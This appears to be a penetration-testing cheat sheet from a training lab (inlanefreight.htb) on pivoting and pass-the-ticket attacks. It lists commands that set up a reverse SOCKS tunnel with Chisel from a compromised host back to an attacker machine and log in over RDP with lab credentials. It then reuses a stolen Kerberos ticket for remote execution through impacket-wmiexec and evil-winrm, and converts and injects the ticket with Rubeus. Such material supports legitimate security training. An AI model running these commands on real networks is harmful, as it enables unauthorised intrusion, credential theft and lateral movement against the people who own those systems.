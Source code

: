 Proxychains Configuration File :

cat /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080

Download Chisel to our Attack Host :

wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 

Connect to MS01 with xfreerdp :

xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution

Execute chisel from MS01 :

c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

Setting the KRB5CCNAME Environment Variable :

export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133

### Impacket

Using Impacket with proxychains and Kerberos Authentication :

proxychains impacket-wmiexec dc01 -k

### Evil-Winrm

Evil-Winrm - Installing Kerberos Authentication Package :

sudo apt-get install krb5-user -y
cat /etc/krb5.conf
[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
proxychains evil-winrm -i dc01 -r inlanefreight.htb

### Miscellaneous

Convert ccache file to kirbi :

impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Importing Converted Ticket into Windows Session with Rubeus :

C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
